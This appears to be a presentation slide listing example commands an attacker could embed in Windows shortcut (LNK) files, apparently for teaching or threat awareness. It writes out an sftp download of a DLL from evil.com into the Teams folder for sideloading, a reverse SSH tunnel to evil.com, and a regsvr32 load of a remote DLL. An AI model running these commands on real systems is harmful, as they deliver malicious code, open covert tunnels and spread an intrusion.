

# Example LNK Commands
SFTP Download and Execute
sftp.exe -o StrictHostChecking=accept-new –o HashKnownHosts=yes -p 443 –i sysupdate sysupdate@evil.com:/version.dll C:\Users\Username\AppData\Local\Microsoft\Teams\Current\version.dll
Tunnel-Only SSH Connection
ssh.exe –o StrictHostChecking=accept-new –o HashKnownHosts=yes -p 443 –N –R 9050 –i sysupdate sysupdate@evil.com
UNC Path Lateral Movement
regsvr32.exe \\InternalServer\SharedFolder\evil.dll